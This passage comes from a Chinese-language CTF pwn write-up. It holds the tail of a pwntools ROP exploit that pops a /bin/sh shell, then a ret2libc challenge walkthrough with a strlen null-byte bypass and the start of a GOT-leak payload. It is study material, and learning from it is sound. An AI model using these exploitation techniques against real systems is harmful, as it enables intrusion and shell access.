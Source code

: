 ```python
    setrax,               // 将 rax 的值设置为 rdi 指向的值

    csu1, 0, 0,  bss, 0, 0, bss+8,
    csu2
])

s.recvuntil("Input: ")
s.sendline(payload)
s.sendline(b"/bin/sh\0"+p64(syscall))
s.interactive()

```

### [Week1] 我后门呢

> aka ret2libc
>
> 目前只要知道，parital relro 下，调用库函数一次之后，got 表中会存放 libc 相关地址即可。剩余内容可以参考 ctf-wiki。

题目没有给后门函数，并且只开启了 NX 保护。此外，题目还提供了 libc.so.6 附件，可以使用 ret2libc。

首先，使用 ida 打开 libc.so.6 文件，可以得到版本为 2.31-0ubuntu9.9_amd64。这个版本在 glibc-all-in-one 中无法直接搜索到，可以在 https://launchpad.net/ubuntu/+source/glibc/2.31-0ubuntu9.9 上下载。下载了对应的 deb 文件后，使用 glibc-all-in-one 的 extract 工具提取出对应的 ld-linux-x86-64.so.2，并使用 `patchelf ./ret2libc --set-interpreter path/to/ld-linux-x86-64.so.2` 和 `patchelf ./ret2libc --add-needed path/to/libc.so.6` 来指定正确的链接器和库。

之后，开始分析程序：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  bufinit(argc, argv, envp);
  puts("There won't be shell for you!");
  puts("Now give me your input:");
  read(0, buf, 0x100uLL);
  if ( strlen(buf) > 0x20 )
  {
    puts("No chance for you to overflow!");
    exit(1);
  }
  puts("See you next time!");
  return 0;
}
```

可以发现，存在一个 read 溢出点。`strlen()` 判断字符串长度的方式是一直读取直到遇到 `\0`，所以我们直接往字符串前面填入 `\0` 即可。

```python
from pwn import *
context(arch="amd64", os="linux")
io = process('./ret2libc', 'b main')

elf = ELF('./ret2libc')
libc = ELF('./libc.so.6')

rdi = 0x401333  # pop rdi（另见 ret2csu）

payload1 = flat([
    b'\0'*0x28,
    # 泄漏 got 表
    rdi, elf.got.read,
    elf.plt.puts,
    # 重新执行 main 函数以继续利用 read 函数
    elf.sym.main
```